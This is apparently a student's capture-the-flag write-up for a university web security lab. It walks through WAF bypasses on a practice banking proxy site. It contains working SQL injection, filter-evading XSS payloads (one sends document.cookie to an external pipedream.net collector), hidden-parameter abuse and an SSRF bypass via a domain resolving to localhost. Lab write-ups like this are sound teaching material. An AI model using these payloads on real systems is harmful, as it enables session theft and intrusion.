




# Topic 5 Challenges

- [x] ctfproxy2.quoccabank.com (6)

### ctfproxy2.quoccabank.com

- To enable to deploy an api (and subsequently use most of the website functionality), you need to visit `https://ctfproxy2.quoccabank.com/api/ctfproxy2-manager` to be allowed to deploy your own api.

  

### ctfproxy2.quoccabank.com/api/payportal-v2

- COMP6443{WAF_IS_EASY_TO_BYPASS}
  - `"or 1=1;`

### ctfproxy2.quoccabank.com/api/science-tomorrow

- Query Flag - COMP6443{XSS_IS_TRIVIAL.ejUzMTI3OTk=.hWfFkm+u0kXdOKLG6H/T6w==}

  - WAF bypass vulnerability

  - Seems like it cant execute JS inside of script tags? e.g.

    ```
    <SCR<SCRIPTIPT%20SRC>document.location = 'https://en45lixradoeo.x.pipedream.net'/*
    ```

    - `/*` is used to comment out after the HTML tag once the XSS payload is injected

  - Note that some keywords such as `fetch` or `alert` are blacklisted by the WAF whilst others such as `SCRIPT` or `IMG` bypass the WAF but stripped out when loaded on the DOM. Final payload using the `onerror` attribute to execute Javascript:

    ```
    <imimgg oneronerrorror="javascript:window.location = `https://en45lixradoeo.x.pipedream.net?q=${document.cookie}`"/>
    ```

- Home Page Flag - COMP6443{WAF_IS_TRIVIAL.ejUzMTI3OTk=.TRGGsfbGI7LS7iYje3G/Zw==}

  - Note: for `onerror`, we are not using `javascript` specifier (i.e. `onerror=javascript:`) since the `script` keyword is blocked by the WAF

    ```
    
    ```

### ctfproxy2.quoccabank.com/api/flagprinter

- COMP6443{I_AM_A_DOC_NOT_A_COP.ejUzMTI3OTk=.pxKRFFaXdaEGLgvmPtxjOA==}
  - We can see that there is an api called `/api/flagprinter` that redirects to `flagprinter.quoccabank.com`. However, `ctfproxy2.quoccabank.com/api/flagprinter` says that the api is blocked by the admin. The text `I love that QuoccaBank lets interns deploy APIs` gives us a hint that we can **deploy** our own api route using `flagprinter.quoccabank.com` as the origin and use the api route we specify instead.

### ctfproxy2.quoccabank.com/api/flagprinter-v2

- COMP6443{HOW_DID_YOU_ENABLE_ME.ejUzMTI3OTk=.aPG94L0WHwxWdxA3k8xYng==}
  - The domain is not visible initially. To find the domain, go to the `/list` route. There is a search bar. When intercepting the POST request, there exist a hidden parameter called `internal` and is set to 0. Set params to `internal=1&name=` to reveal the hidden api.

    

  - When accessing `https://ctfproxy2.quoccabank.com/api/flagprinter-v2`, it seems that we don't have special permissions.
  
  - We could try to do a similar tactic with `flagprinter` where we deploy the api. When deploying an api, messing around the body json returns this error alert
  
    
  
  - There appears to be a `dependsOn` param in the body. Giving an invalid input initially (i.e. a number) returns an alert that it accepts an array of strings
  
    
  
  - Use the payload to enable the `flagprinter-v2` api
  
    ```
    {
        "name": "flag-v2",
        "origin": "flagprinter-v2.quoccabank.com",
        "description": "",
        "dependsOn": [
            "flagprinter-v2"
        ]
    }
    ```
  
  - Enable the api by `https://ctfproxy2.quoccabank.com/enable/test2`
  
  - Visit the original flagprinter-v2 api `https://ctfproxy2.quoccabank.com/api/flagprinter-v2/` to get the flag.

### ctfproxy2.quoccabank.com/flag

- COMP6443{SSRF_IS_FUN_AND_TRIVIAL_NOW_WITH_WAF.ejUzMTI3OTk=./UzzxUkt+rkgHcU38pKFeg==}

  - Visit `/robots.txt`. There exists a `/flag` route

  - Visiting `/flag` gives us an error 418. When checking the comment, we are given this snippet:

    

  - This seems like a possible SSRF vulnerability where we can load the page from the server and somehow send it to the client.

  - Looking at other aspects of the website, seems like we can inject a URL in upload avatar which could possibly run the `/flag` route as the server. Looking at the source code, there exists a WAF that checks if the URL is a `localhost` ip address

    

  - Seems like we can bypass the using:

    ```
    http://google.com@gtangelo.com/flag#.png
    ```

    where `gtangelo.com` has an A record pointing to the localhost ip address `127.0.0.1`. The first part of the payload, `http://google.com@` ensures that the WAF stops at the `@` due to the regex. After, it sends a request to the entire url, including `gtangelo.com/flag#.png`. The `@` in the URL redirects from `http://google.com` to `gtangelo.com/flag#.png` when the URL is requested. The `#` in `gtangelo.com/flag#.png` is there to bypass the WAF since the URL must end with `.png`. Also characters after `#` is not registered as a part of the request url. i.e. `/flag?picture=p.png` or `/flag#.png` is interpreted as `/flag`

  - Once the payload is used, the html in `/flag` should be in the avatar.png. Download the image, change it to `avatar.txt` to get the contents which contains the flag.

